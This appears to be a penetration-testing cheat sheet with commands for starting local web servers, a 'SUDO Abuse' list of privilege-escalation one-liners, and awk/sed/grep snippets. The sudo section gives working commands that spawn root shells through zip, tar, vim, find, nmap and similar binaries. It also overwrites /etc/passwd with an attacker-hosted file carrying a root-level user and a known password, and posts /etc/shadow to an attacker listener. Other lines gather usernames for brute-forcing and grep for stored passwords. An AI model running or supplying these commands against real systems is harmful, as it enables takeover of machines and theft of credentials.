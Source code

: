 How To Create an local server
--------------------------------------------
Using Python2
       [ python -m SimpleHTTPServer “port_number” ]
Using Python3
       [ python3 -m http.server ]
Using PHP
       [ php -S localhost:80 ]
Using Ruby
       [ ruby -run -e httpd . -p8000 ]
      -	Using BusyBox
      [ busybox httpd -p 127.0.0.1:8080 -h /var/www/ ]
     *  To Stop The Server
     [ pkill busybox ]
Using Webfsd 
       * Its Doesn’t Come Pre-installed with Linux install It Using 
       [ sudo apt-get install webfs ]
     * To Start Webfs Service
       [ sudo service webfs start ]
Using TFTP
       [ atftpd --daemon --port 69 /tftp ]
Using Nodejs
      *First You Have To Install Http Server in Nodejs To Install Use
       [ npm install -g http-server ]
    *To Start The Http Server Use
        [ http-server -p 80 ]

Exploiting SUDO users : (SUDO Abuse)
--------------------------------------------------------
- Using zip command
   sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
- Using tar command
  sudo tar cf /dev/null testfile --checkpoint=1 --checkpointaction=exec=/bin/bash
- Using strace command
   sudo strace -o/dev/null /bin/bash
- Using tcpdump command
   echo $’id\ncat /etc/shadow’ > /tmp/.shell
   chmod +x /tmp/.shell
    sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell-Z root
- Using scp command
    sudo scp -S /path/yourscript x y
- Using except command
    sudo except spawn sh then sh
- Using nano command
    sudo nano -S /bin/bash # type your command and hit CTRL+T 
- Using git command
   sudo git help status
   !/bin/bash
   # Using gdb/ftp command
   sudo ftp
   !/bin/sh
- Using Find Command
   sudo find /etc/passwd -exec /bin/sh \;
- or
   sudo find /bin -name nano -exec /bin/sh \;
- Using Vim Command
   sudo vim -c '!sh'
- Using Nmap Command (Old way)
   sudo nmap --interactive
   nmap> !sh
Sh-4.1
- Using Nmap Command (Latest Way without –interactive)
  echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
- Using Man Command
  sudo man man # after that press !sh and hit enter
- Using Less/More Command
  sudo less /etc/hosts
  sudo more /etc/hosts  [ after that press !sh and hit enter]
- Using awk Command
  sudo awk 'BEGIN {system("/bin/sh")}'
- Using nano Command
  sudo nano  /etc/passwd [now switch user password is : test]
  su touhid
- Using wget Command
- [On Attaker Side]
[First Copy Target’s /etc/passwd file to attacker machine. Modify file and add a user in passwd file which is saved in the previous step to the attacker machine. Append this line only ]
=> touhid:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash
-Host that passwd file to using any web server.
-[ On Victim Side.]
   sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
[Now switch user password is : test]
  su touhid
  sudo wget --post-file=/etc/shadow 192.168.56.1:8080 [Setup Listener on attacker : nc –lvp 8080]
-Using apache Command
 sudo apache2 -f /etc/shadow
Useful commands
-------------------------------------
List of commands you use most often:
history | awk '{a[$2]++}END{for(i in a) {print a[i] " " i}}' | sort -rn | head
Generate length based wordlists with awk
awk 'length == 10' file.txt > 10-length.txt
Print the 9th line of a file that matches a regex.
awk ‘$9 ~ /404/ { print }’ access.log
Get the usernames from /etc/passwd and dump them into a file for bruteforcing
awk -F':' '{ print $1}' /etc/passwd > users.txt
Sort count and print line occurrences of a file
cat file | sort  | uniq -c | sort -n
Grep a regex and print only matched area
grep -E -o regex file
Remove duplicate entries in a file without sorting
awk '!x[$0]++' filename
Remove empty lines
awk 'NF > 0' filename
alternative:
awk NF filename
Show only first and third words in file
awk '{print $1,$3;}' myfile
Get The Username From /etc/passwd
awk -F':' '{ print $1}' /etc/passwd < users.txt
Clean a wordlist for use with password cracking tools and rules
cat file1.txt | awk '{gsub(/[[:punct:]]/,"")}1' | tr A-Z a-z |sed 's/[0-9]*//g' | sed -e 's/ //g' | strings | tr -cs '[:alpha:]' '\ ' | sed -e 's/ /\n/g' | tr A-Z a-z | sort -u < cleanfile2.txt
Match CVE Numbers
grep -o 'CVE-[0-9]{4}-[0-9]{1,5}'
Match input fields with a hidden input type in an HTML file
grep -io ']*hidden[^<]*<' hidden.csv | sed 's#""#"#g;s#value="[^"]*"#value=""#g' | sort -u | less
Parse IIS Logs for a certain IP ADDRESS (127.0.0.1)
grep 127.0.0.1 *.log | grep -v -e ".gif" -e ".jpg" -e ".ico" -e ".css" -e ".pdf" -e "404" | cut -d' ' -f2,4,5,6,10 | awk '{printf "%s %-04s http://site.com%s?%s  Ref:(%s)n",$1,$2,$3,$4,$5}' | tr -d '-' | sed 's/Ref:()//g' | sed 's/? //g' | awk '{printf "%s %-04s %-70st%sn",$1,$2,$3,$4}' 
Find all links in a file
egrep -IRo '(((http(s)?|ftp|telnet|news|gopher)://|mailto:)[^()<"'''[:space:]]+)'
Generate a random password 30 characters long
strings /dev/urandom | grep -o '[[:alnum:]]' | head -n 30 | tr -d '\n'; echo
Search for a pattern string inside all files in the current directory
grep -RnisI <pattern< *
grep -r <pattern< * .[!.]*
Recursive search and replace old with new string, inside files
grep -rl oldstring . | parallel sed -i -e 's/oldstring/newstring/'
Remove "ssh host" from known hosts file.
echo "${1}" | egrep '^[[:digit:]]*$' ; if [ "$?" -eq 0 ] ; then sed -i "${1}"d
$HOME/.ssh/known_hosts ; else printf "\tYou must enter a number!\n\n" ; exit 1 ; fi
Grep Hardcoded Passwords
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
grep -l -i pass /var/log/*.log 2</dev/null
grep -r "password" .
Filter out URL parameters
sed 's_=[^&]*(&|$)_=1_g'
remove nroff overstrikes (char, backspace) from man pages. The 'echo'
sed "s/.`echo \\\b`//g"
sed 's/.^H//g'
sed 's/.\x08//g'
get Usenet/e-mail message header
sed '/^$/q'
get Usenet/e-mail message body
sed '1,/^$/d'
get Subject header, but remove initial "Subject:"
sed '/^Subject: */!d; s///;q'
get return address header
sed '/^Reply-To:/q; /^From:/h;/./d;g;q'
parse out the address proper. Pulls out the e-mail address by itself
sed 's/ (.)//; s/<.*//;s/.*[:<] *//'
add a leading angle bracket and space to each line (quote a message)
sed 's/^/< /'
delete leading angle bracket & space from each line (unquote a message)
sed 's/^< //'
remove most HTML tags (accommodates multiple-line tags)
sed -e :a -e 's/<[^<]*<//g;/</N;//ba'
extract multi-part uuencoded binaries, removing extraneous header
sed '/^end/,/^begin/d' file1 file2 ... fileX | uudecode
sed '/^end/,/^begin/d' "$@" | uudecode
sort paragraphs of file alphabetically. Paragraphs are separated by blank
sed '/./{H;d;};x;s/\n/={NL}=/g' file | sort | sed '1s/={NL}=//;s/={NL}=/\n/g'
sed '/./{H;d};x;y/\n/\v/' file | sort | sed '1s/\v//;y/\v/\n/'
